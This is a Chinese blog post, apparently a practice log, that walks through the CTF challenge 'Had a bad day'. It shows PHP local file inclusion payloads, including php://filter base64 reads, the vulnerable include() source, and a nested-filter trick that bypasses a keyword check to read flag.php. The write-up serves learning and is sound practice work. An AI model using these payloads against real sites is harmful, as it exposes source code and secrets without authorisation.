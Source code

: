 ```yaml
---

title: 日常练习16

date: 2021-04-13 23:59:17

tags: 练习

categories: test64

---
```

今天做题知道了一个关于php伪协议的一个小知识点，记录下来。  

# [BSidesCF 2020]Had a bad day  

打开题目，发现是一个选择页面，有两个选项，如果选择woofers会出现狗的照片，选择meowers就会出现猫的图片，但是我们可以发现当选择其中一个选项后url会发生变化。   

[![](https://img.imgdb.cn/item/607ac1db8322e6675cdc0496.png)](https://img.imgdb.cn/item/607ac1db8322e6675cdc0496.png)  

此时的url为：  

	http://1b3467ab-92b7-481e-8f37-18bbc1f7e16b.node3.buuoj.cn/index.php?category=woofers  

可以看到，这里是用get方式上传了category变量，当这个变量为woofers时显示狗的照片，为meowers时显示猫的照片。  

根据这个发现，我们可以想到ssrf攻击（有关ssrf攻击可以看我之前的博客。）而ssrf攻击时可以通过file://来读取文件的。  

那我们这样构造payload。  

	?category=file://../../flag  

[![](https://img.imgdb.cn/item/607ac34a8322e6675cdf99b9.png)](https://img.imgdb.cn/item/607ac34a8322e6675cdf99b9.png)  

发现flag应该是被过滤了。  

那么我们查看网页源代码。   

	?category=file://../../index  

[![](https://img.imgdb.cn/item/607ac3ad8322e6675ce0830a.png)](https://img.imgdb.cn/item/607ac3ad8322e6675ce0830a.png)  

这里发现报错了。是一个include()函数的报错，从这里我们可以知道这道题是一个include()函数漏洞，我们上传的category的参数会传入include()函数中。   

那么我们就可以使用伪协议来利用include()漏洞。   

我们这样构造：  

	?category=php://filter/read=convert.base64-encode/resource=index  

注意这里文件名是index而不是index.php，这是因为代码中会给你添加上后缀名（如果上传index.php，报错时会显示index.php.php，说明代码中已经加上了文件后缀。  

这样我们就能得到源码，解码后如下：  

	<html>
	<head>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="description" content="Images that spark joy">
    <meta name="viewport" content="width=device-width, initial-scale=1.0, minimum-scale=1.0">
    <title>Had a bad day?</title>
    <link rel="stylesheet" href="css/material.min.css">
    <link rel="stylesheet" href="css/style.css">
	</head>
	<body>
    <div class="page-layout mdl-layout mdl-layout--fixed-header mdl-js-layout mdl-color--grey-100">
      <header class="page-header mdl-layout__header mdl-layout__header--scroll mdl-color--grey-100 mdl-color-text--grey-800">
        <div class="mdl-layout__header-row">
          <span class="mdl-layout-title">Had a bad day?</span>
          <div class="mdl-layout-spacer"></div>
        <div>
      </header>
      <div class="page-ribbon"></div>
      <main class="page-main mdl-layout__content">
        <div class="page-container mdl-grid">
          <div class="mdl-cell mdl-cell--2-col mdl-cell--hide-tablet mdl-cell--hide-phone"></div>
          <div class="page-content mdl-color--white mdl-shadow--4dp content mdl-color-text--grey-800 mdl-cell mdl-cell--8-col">
            <div class="page-crumbs mdl-color-text--grey-500">
            </div>
            <h3>Cheer up!</h3>
              <p>
                Did you have a bad day? Did things not go your way today? Are you feeling down? Pick an option and let the adorable images cheer you up!
              </p>
              <div class="page-include">
              <?php
				$file = $_GET['category'];

				if(isset($file))
				{
					if( strpos( $file, "woofers" ) !==  false || strpos( $file, "meowers" ) !==  false || strpos( $file, "index")){
						include ($file . '.php');
					}
					else{
						echo "Sorry, we currently only support woofers and meowers.";
					}
				}
				?>
			</div>
          <form action="index.php" method="get" id="choice">
              <center><button onclick="document.getElementById('choice').submit();" name="category" value="woofers" class="mdl-button mdl-button--colored mdl-button--raised mdl-js-button mdl-js-ripple-effect" data-upgraded=",MaterialButton,MaterialRipple">Woofers<span class="mdl-button__ripple-container"><span class="mdl-ripple is-animating" style="width: 189.356px; height: 189.356px; transform: translate(-50%, -50%) translate(31px, 25px);"></span></span></button>
              <button onclick="document.getElementById('choice').submit();" name="category" value="meowers" class="mdl-button mdl-button--colored mdl-button--raised mdl-js-button mdl-js-ripple-effect" data-upgraded=",MaterialButton,MaterialRipple">Meowers<span class="mdl-button__ripple-container"><span class="mdl-ripple is-animating" style="width: 189.356px; height: 189.356px; transform: translate(-50%, -50%) translate(31px, 25px);"></span></span></button></center>
          </form>

          </div>
        </div>
      </main>
    </div>
    <script src="js/material.min.js"></script>
	</body>
	</html>  

我们挑出其中有用代码：  

	           <?php
				$file = $_GET['category'];

				if(isset($file))
				{
					if( strpos( $file, "woofers" ) !==  false || strpos( $file, "meowers" ) !==  false || strpos( $file, "index")){
						include ($file . '.php');
					}
					else{
						echo "Sorry, we currently only support woofers and meowers.";
					}
				}
				?>  

可以看到确实和我们想的差不多，上传的变量参数如果有woofers，meowers，index其中一个，那么就会显示相关的php文件内容。  

但是我们可以看到，对于变量只做了一个匹配，那就是上传的字符串中必须有上面三个字符串中的一个。才能执行include()函数。那么我们的伪协议中也就必须要有这三个字符串中的一个。  

这里就涉及到了伪协议的一个小知识点：嵌套使用。   

如果我们这样构造：  

	?category=php://filter/read=convert.base64-encode/woofers/resource=flag  

可以看到，我们在伪协议中嵌套了一层协议，添加了一个woofers，这样既满足了对于上传参数的匹配，又可以成功读取到flag.php文件。   

[![](https://img.imgdb.cn/item/607ac7738322e6675ce845ff.png)](https://img.imgdb.cn/item/607ac7738322e6675ce845ff.png)  

# 小结  

感觉这个知识点就是一种绕过的方式，可以积累一下。